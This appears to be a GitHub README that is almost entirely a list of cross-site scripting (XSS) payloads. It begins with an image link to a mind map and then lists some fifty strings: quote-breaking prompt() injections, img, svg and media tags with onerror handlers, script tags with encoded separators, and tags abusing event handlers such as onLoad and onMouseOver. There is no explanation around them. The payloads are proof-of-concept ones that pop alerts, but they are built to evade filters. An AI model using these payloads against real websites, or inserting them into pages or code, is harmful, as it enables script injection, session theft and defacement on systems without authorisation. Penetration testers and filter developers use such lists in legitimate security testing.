 ## XSS Mind Maps
![jackmasa-mind-map](https://user-images.githubusercontent.com/48154334/161311861-c38babbc-ac7f-45f5-9f56-69e73efe65ad.png)

# Cross Site Scripting (XSS) Payload List ⬇️


      "-prompt(8)-"
      '-prompt(8)-'
      ";a=prompt,a()//
      ';a=prompt,a()//
      '-eval("window['pro'%2B'mpt'](8)")-'
      "-eval("window['pro'%2B'mpt'](8)")-"
      "onclick=prompt(8)>"@x.y
      "onclick=prompt(8)><svg/onload=prompt(8)>"@x.y
      <image/src/onerror=prompt(8)>
      <img/src/onerror=prompt(8)>
      <image src/onerror=prompt(8)>
      <img src/onerror=prompt(8)>
      <image src =q onerror=prompt(8)>
      <img src =q onerror=prompt(8)>
      </scrip</script>t><img src =q onerror=prompt(8)>
      <script\x20type="text/javascript">javascript:alert(1);</script>
      <script\x3Etype="text/javascript">javascript:alert(1);</script>
      <script\x0Dtype="text/javascript">javascript:alert(1);</script>
      <script\x09type="text/javascript">javascript:alert(1);</script>
      <script\x0Ctype="text/javascript">javascript:alert(1);</script>
      <script\x2Ftype="text/javascript">javascript:alert(1);</script>
      <script\x0Atype="text/javascript">javascript:alert(1);</script>
      '`"><\x3Cscript>javascript:alert(1)</script>        
      '`"><\x00script>javascript:alert(1)</script>
      <img src=1 href=1 onerror="javascript:alert(1)"></img>
      <audio src=1 href=1 onerror="javascript:alert(1)"></audio>
      <video src=1 href=1 onerror="javascript:alert(1)"></video>
      <body src=1 href=1 onerror="javascript:alert(1)"></body>
      <image src=1 href=1 onerror="javascript:alert(1)"></image>
      <object src=1 href=1 onerror="javascript:alert(1)"></object>
      <script src=1 href=1 onerror="javascript:alert(1)"></script>
      <svg onResize svg onResize="javascript:javascript:alert(1)"></svg onResize>
      <title onPropertyChange title onPropertyChange="javascript:javascript:alert(1)"></title onPropertyChange>
      <iframe onLoad iframe onLoad="javascript:javascript:alert(1)"></iframe onLoad>
      <body onMouseEnter body onMouseEnter="javascript:javascript:alert(1)"></body onMouseEnter>
      <body onFocus body onFocus="javascript:javascript:alert(1)"></body onFocus>
      <frameset onScroll frameset onScroll="javascript:javascript:alert(1)"></frameset onScroll>
      <script onReadyStateChange script onReadyStateChange="javascript:javascript:alert(1)"></script onReadyStateChange>
      <html onMouseUp html onMouseUp="javascript:javascript:alert(1)"></html onMouseUp>
      <body onPropertyChange body onPropertyChange="javascript:javascript:alert(1)"></body onPropertyChange>
      <svg onLoad svg onLoad="javascript:javascript:alert(1)"></svg onLoad>
      <body onPageHide body onPageHide="javascript:javascript:alert(1)"></body onPageHide>
      <body onMouseOver body onMouseOver="javascript:javascript:alert(1)"></body onMouseOver>
      <body onUnload body onUnload="javascript:javascript:alert(1)"></body onUnload>
      <body onLoad body onLoad="javascript:javascript:alert(1)"></body onLoad>
      <bgsound onPropertyChange bgsound onPropertyChange="javascript:javascript:alert(1)"></bgsound onPropertyChange>
      <html onMouseLeave html onMouseLeave="javascript:javascript:alert(1)"></html onMouseLeave>
      <html onMouseWheel html onMouseWheel="javascript:javascript:alert(1)"></html onMouseWheel>
      <style onLoad style onLoad="javascript:javascript:alert(1)"></style onLoad>